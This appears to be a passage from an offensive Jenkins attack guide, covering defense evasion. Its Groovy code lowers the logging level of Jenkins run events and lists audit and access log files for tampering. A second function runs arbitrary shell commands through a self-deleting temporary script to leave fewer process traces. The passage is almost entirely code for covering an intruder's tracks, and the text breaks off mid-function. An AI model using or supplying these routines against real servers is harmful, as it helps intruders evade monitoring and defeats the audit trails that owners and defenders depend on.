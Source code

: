 
## Defense Evasion and Operational Security

### Log Evasion Techniques

#### Jenkins Audit Log Manipulation
```groovy
// Jenkins log analysis and manipulation
def manipulateJenkinsLogs() {
    try {
        def jenkins = Jenkins.instance
        def loggerName = "hudson.model.Run"
        
        // Reduce logging verbosity for specific actions
        def logger = java.util.logging.Logger.getLogger(loggerName)
        logger.setLevel(java.util.logging.Level.WARNING)
        
        println "[+] Logging verbosity reduced for $loggerName"
        
        // Clear specific log entries if possible
        def logDir = new File(jenkins.getRootDir(), "logs")
        if (logDir.exists()) {
            println "[+] Jenkins log directory: ${logDir.absolutePath}"
            
            logDir.listFiles().each { logFile ->
                if (logFile.name.contains("audit") || logFile.name.contains("access")) {
                    println "  Log file: ${logFile.name} (${logFile.length()} bytes)"
                }
            }
        }
        
    } catch (Exception e) {
        println "Log manipulation failed: ${e.getMessage()}"
    }
}

// manipulateJenkinsLogs()
```

### Anti-Detection Measures
```groovy
// Stealth command execution with minimal footprint
def stealthExecution(String command) {
    try {
        // Execute command without creating obvious process traces
        def tempScript = File.createTempFile("sys", ".sh")
        tempScript.text = "#!/bin/bash\n$command\nrm -f ${tempScript.absolutePath}"
        tempScript.setExecutable(true)
        
        def proc = tempScript.absolutePath.execute()
        def result = proc.text
        proc.waitFor()
        
        // Clean up
        if (tempScript.exists()) {
            tempScript.delete()
        }
        
        return result
        
    } catch (Exception e) {
        return "Error: ${e.getMessage()}"
    }
```